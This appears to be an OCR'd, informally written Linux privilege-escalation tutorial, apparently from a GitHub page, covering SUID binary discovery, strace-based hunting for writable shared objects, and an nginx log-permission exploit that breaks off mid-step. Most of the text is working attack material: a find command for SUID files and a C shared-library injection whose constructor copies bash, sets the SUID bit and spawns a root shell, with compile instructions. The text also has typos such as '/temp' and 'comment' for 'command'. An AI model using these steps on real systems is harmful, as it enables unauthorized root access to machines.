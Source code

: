 ```
find / -type f -perm -04000 -ls 2>/dev/null 
```

now look.so files to analyse the .so files we can use the strace comment to know what it is doing

The command

```
strace <file_location> 2>&1
```

to look for the more easier

```
strace <file_location> 2>&1 | grep -i -E "open|access|no such file"
```

by any usable file or content have found overwrite if the file is in user
directory with read write permissions
overwrite these with malicious code results into the privilege escalation
the code for the injection is:
filename:libcalc.c

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject(){
        system("cp /bin/bash /temp/bash && chmod +s /temp/bash && /temp/bash
-p");
}
```

the comment to run this:
gcc -shared -fPIC -o <location of .so file> <location of our file>
now we gain root access.

II.Vulnerabilities in the suid :

1. By using the suid we can gain the access to the root
2. And the common suid dependent in the web server are the nginx
vulnerabilitites that is the nginx is reverse proxy server and high
performance server,the weak permission in the log file leads to the
vulnerability and there should be suid bit in sudo simultaneously to this
work

The command for the version of the nginix is:

```
dpkg -l | grep nginx
```

if the version is less than or equal to 1.6.2 then there exits the
vulnerability

steps to exploit the vulnerability of nginx:

1. First look at the log files of the nginx in www-data using the command
ls -la /var/log/nginx if the any log file that runs on root and have
execute permission leads to exploit
